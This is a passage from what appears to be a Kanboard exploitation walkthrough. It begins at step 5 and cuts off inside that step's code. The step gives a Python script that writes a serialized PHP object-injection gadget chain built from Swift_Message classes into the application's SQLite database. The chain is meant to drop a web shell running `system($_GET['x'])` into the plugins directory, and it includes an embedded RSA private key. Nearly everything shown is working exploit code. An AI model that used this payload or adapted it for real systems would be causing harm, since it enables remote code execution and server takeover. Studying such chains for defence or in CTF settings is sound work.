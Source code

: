       <img src="/assets/img/kanboard/db_edit.png" alt="Password Reset" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>
5. Use the following Python script to update the `data` column on the target row.

    ```python
    import sqlite3

    payload = b'a:6:{s:7:"comment";a:2:{s:7:"comment";O:13:"Swift_Message":8:{s:37:"\x00Swift_Mime_SimpleMimeEntity\x00_headers";O:26:"Swift_Mime_SimpleHeaderSet":1:{s:36:"\x00Swift_Mime_SimpleHeaderSet\x00_factory";O:30:"Swift_Mime_SimpleHeaderFactory":3:{s:40:"\x00Swift_Mime_SimpleHeaderFactory\x00_encoder";O:44:"Swift_Mime_HeaderEncoder_Base64HeaderEncoder":0:{}s:45:"\x00Swift_Mime_SimpleHeaderFactory\x00_paramEncoder";O:44:"Swift_Mime_HeaderEncoder_Base64HeaderEncoder":0:{}s:40:"\x00Swift_Mime_SimpleHeaderFactory\x00_grammar";O:18:"Swift_Mime_Grammar":0:{}}}s:34:"\x00Swift_Mime_SimpleMimeEntity\x00_body";s:28:"<?php system($_GET[\'x\']); ?>";s:37:"\x00Swift_Mime_SimpleMimeEntity\x00_encoder";O:43:"Swift_Mime_ContentEncoder_RawContentEncoder":0:{}s:35:"\x00Swift_Mime_SimpleMimeEntity\x00_cache";O:28:"Swift_KeyCache_ArrayKeyCache":2:{s:39:"\x00Swift_KeyCache_ArrayKeyCache\x00_contents";a:0:{}s:37:"\x00Swift_KeyCache_ArrayKeyCache\x00_stream";O:40:"Swift_KeyCache_SimpleKeyCacheInputStream":4:{s:51:"\x00Swift_KeyCache_SimpleKeyCacheInputStream\x00_keyCache";O:28:"Swift_KeyCache_ArrayKeyCache":2:{s:39:"\x00Swift_KeyCache_ArrayKeyCache\x00_contents";a:0:{}s:37:"\x00Swift_KeyCache_ArrayKeyCache\x00_stream";N;}s:48:"\x00Swift_KeyCache_SimpleKeyCacheInputStream\x00_nsKey";s:9:"something";s:50:"\x00Swift_KeyCache_SimpleKeyCacheInputStream\x00_itemKey";s:9:"something";s:55:"\x00Swift_KeyCache_SimpleKeyCacheInputStream\x00_writeThrough";O:31:"Swift_ByteStream_FileByteStream":2:{s:38:"\x00Swift_ByteStream_FileByteStream\x00_path";s:29:"/var/www/app/plugins/test.php";s:38:"\x00Swift_ByteStream_FileByteStream\x00_mode";s:3:"w+b";}}}s:38:"\x00Swift_Mime_SimpleMimeEntity\x00_cacheKey";s:9:"something";s:28:"\x00Swift_Message\x00headerSigners";a:1:{i:0;O:29:"Swift_Signers_DomainKeySigner":2:{s:14:"\x00*\x00_privateKey";s:886:"-----BEGIN RSA PRIVATE KEY-----\nMIICXQIBAAKBgQDRpx277bhMnUSga718Dd7P7ZA+23B8kBzqie3hFklaPFL8R18w\nbVjHU4VHJq1SIrkbaX9MKnuAl4y9VSruQuJtjb9k1mk1CaWgESwK0ViOx9ugoI4B\ncmEToyO/gCPKAkF69r7Lfy/M0VOxXH58QURCQU3dS3pm5SP8hhy/ag8fowIDAQAB\nAoGATbKBcoRHKR2fsVQ8hR0e1jBUpPbuWTuPe9xiLGj2BlsU5ioNPQVJQZXSbuwG\nj8oOj/opEzErVBzWK9TEdEiVYRhcyPc6awiIulZAp928TRsP0+ZjKOTXtgU40GNf\nBqdaI8oMgSjeB3mbJP9S9ghVmOEN1AArOPBrWKyIEcDq/gECQQD5C0rb1lYqN7Om\nyx6gYUXW91xs40PCtNI1EVtFVkVb4B3Dsz3tmi93NxgDK+fJLcid3Yx4PF0v1pm6\nysBU2vupAkEA14IrToWxTtzcPI9852TJ4A9IA93Y7AppmWzkxp0uPM0tmRIuOpK+\nfoLPtdLcXE7KAtHoHnccpGSQE33clb5wawJBAOYPHXcZd/2F+UqCZudnFHoxhcr8\n4nKyUWE+iF70BByMW1KWeQXOIjzxwxfi7jq1NZdHu2Sy9q6jgt3AQI3iwQkCQCy0\ngP1R+H0OjdU2QsfRfZswMFU1ARm98zfzgeW9l2jfezUEs3hNFp0xz5q9Oh8f7QH2\nvzsKpHNptQWGF2sszS8CQQCMZbkmUguZhj72vvJ33bbugLtjv2AjTQxwAOAZZF+3\n6P1HpTADFnZQZbGAmjJNT//JEHs6+TTbb1Wjj+mJHbmR\n-----END RSA PRIVATE KEY-----";s:37:"\x00Swift_Signers_DomainKeySigner\x00_bound";a:1:{i:0;r:13;}}}s:26:"\x00Swift_Message\x00bodySigners";a:0:{}s:27:"\x00Swift_Message\x00savedMessage";a:0:{}}s:10:"visibility";i:1;}s:11:"author_name";s:4:"evil";s:15:"author_username";s:0:"";s:10:"event_name";s:14:"comment.create";s:4:"task";a:2:{s:2:"id";i:1;s:5:"title";s:4:"test";}s:13:"date_creation";i:1725000000;}'

